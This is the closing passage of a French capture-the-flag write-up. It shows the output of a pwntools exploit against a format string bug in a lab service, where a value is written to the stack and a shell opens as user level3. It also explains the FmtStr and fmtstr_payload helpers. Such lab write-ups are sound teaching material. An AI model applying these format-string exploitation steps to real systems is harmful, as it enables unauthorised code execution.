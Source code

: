 Et ça marche :

```bash
$ python remote_lvl3.py 
[+] Opening connection to 192.168.56.83 on port 44101: Done
[*] Closed connection to 192.168.56.83 port 44101
[+] Opening connection to 192.168.56.83 on port 44101: Done
[*] Found format string offset: 11
[*] offset is at dword 11
[*] Closed connection to 192.168.56.83 port 44101
[+] Opening connection to 192.168.56.83 on port 44101: Done
Saved EBP = 0xbfec9078
Ecriture de 31337 à l'adresse bfec8e20
[*] Switching to interactive mode
Your guess 40aa--- snip ---\x00\xb0\x90쿱\x90쿳\x90\xec\xbf is to high
guess: $ id
uid=1003(level3) gid=1001(level1) groups=1003(level3),1001(level1)
```

Comme sur le [CTF Pegasus](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Pegasus%20de%20VulnHub.md) j'ai utilisé `pwntools` qui a correctement trouvé l'offset auquel les données étaient reflétées.

En théorie via `FmtStr` on peut alors simplement spécifier avec la méthode `write` l'adresse où l'on veut écrire et la valeur puis on valide avec `execute_writes`.

Ca a marché effectivement au début mais après j'ai eu encore recours à la méthode plus brute `fmtstr_payload` qui laisse moins de surprises...

*Publié le 26 décembre 2022*


